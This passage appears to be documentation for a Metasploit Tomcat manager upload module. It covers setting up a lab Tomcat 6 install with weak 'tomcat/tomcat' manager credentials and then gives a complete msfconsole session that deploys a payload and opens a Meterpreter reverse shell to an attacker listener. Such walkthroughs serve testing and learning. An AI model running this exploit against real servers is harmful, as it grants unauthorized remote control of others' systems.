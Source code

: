 The install was default, other than adding a user during install.  No other options were changed.  The install assigned the new user the role `manager-gui`, which is Tomcat 7+ syntax.
For this exploitation, it was changed to simply `manager`.

#### Exploitation

1. Edit `C:\Program Files\Apache Software Foundation\Tomcat 6.0\tomcat-users.xml` to add the following under the `<tomcat-users>` line:

```xml
<role rolename="manager"/>
<user username="tomcat" password="tomcat" roles="manager"/>
```

2. Restart Tomcat service

3. Exploit:

```
msf > use exploit/multi/http/tomcat_mgr_upload
msf exploit(tomcat_mgr_upload) > set rport 8086
rport => 8086
msf exploit(tomcat_mgr_upload) > set HttpUsername tomcat
HttpUsername => tomcat
msf exploit(tomcat_mgr_upload) > set HttpPassword tomcat
HttpPassword => tomcat
msf exploit(tomcat_mgr_upload) > set rhost 192.168.2.108
rhost => 192.168.2.108
msf exploit(tomcat_mgr_upload) > set payload java/meterpreter/reverse_tcp
payload => java/meterpreter/reverse_tcp
msf exploit(tomcat_mgr_upload) > check
[*] 192.168.2.108:8086 The target appears to be vulnerable.
msf exploit(tomcat_mgr_upload) > set lhost 192.168.2.117
lhost => 192.168.2.117
msf exploit(tomcat_mgr_upload) > exploit

[*] Started reverse TCP handler on 192.168.2.117:4444
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying ZyCAK8R6vkZdD7d8n5fiLOpXEfPsq7...
[*] Executing ZyCAK8R6vkZdD7d8n5fiLOpXEfPsq7...
[*] Undeploying ZyCAK8R6vkZdD7d8n5fiLOpXEfPsq7 ...
[*] Sending stage (49409 bytes) to 192.168.2.108
[*] Meterpreter session 1 opened (192.168.2.117:4444 -> 192.168.2.108:3387) at 2017-01-15 19:18:14 -0500

meterpreter > sysinfo
Computer    : winxp
OS          : Windows XP 5.1 (x86)
Meterpreter : java/windows
```

### Tomcat 7 (7.0.73)
Of note, as of Tomcat 7, the permission role `manager` has been divided into several sub-roles.  The `manager-gui` permission is required for this exploit.
